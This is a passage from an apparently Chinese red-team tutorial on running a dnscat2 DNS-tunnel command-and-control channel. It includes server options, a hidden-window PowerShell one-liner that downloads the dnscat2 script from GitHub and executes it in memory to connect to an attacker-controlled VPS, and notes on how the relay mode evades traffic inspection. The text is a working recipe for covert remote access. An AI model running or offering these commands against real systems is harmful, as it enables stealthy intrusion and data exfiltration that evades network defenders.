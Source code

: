 ```
-e 指定安全级别，open 表示服务端允许客户端不进行加密
```

如果提示`Address already in use - bind(2) for "0.0.0.0" port 53`，可以关闭`systemd-resolved`

```
sudo systemctl stop systemd-resolved
```

**开启客户端**，这里以 Windows 下的 PowerShell 版为例

```
start-Dnscat2 -Domain dc.teamssix.com -PreSharedSecret teamssix -DNSServer vps_ip
```

也可以把导入的命令和开启客户端的命令放在一起

```
powershell.exe -nop -w hidden -c {IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');start-Dnscat2 -Domain dc.teamssix.com -PreSharedSecret teamssix -DNSServer vps_ip}
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd20szqd7x6Isia3OdVIpAUWcnNTxotveC5w7NEoDfHjACfpwequlasNeA/640?wx_fmt=png)

再来抓下包，看看流量是什么样的

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2y2DYOnsbLKv8I6wsVIubM0Jg9vic62FOfDZwsaZibK0axFYAjPiaibv2Mw/640?wx_fmt=png)

可以看出，流量中已经没有了 dnscat 的字样，这也是为什么在介绍部分说中继模式比直连模式更安全的原因。

> 参考文章：
> 
> https://xz.aliyun.com/t/2214
> 
> https://blog.csdn.net/localhost01/article/details/86591685
> 
> https://blog.csdn.net/qq_36119192/article/details/104429983

  

**_后记_**

  

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2GBmM2OcVYLBOJwuRLTfFVB29deLOmZJrpXY9Tl5XTogSaQXFvPCuvw/640?wx_fmt=png)

TeamsSix

我靠着那加给我力量的，凡事都能作。(腓立比书 4:13 和合本)

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**
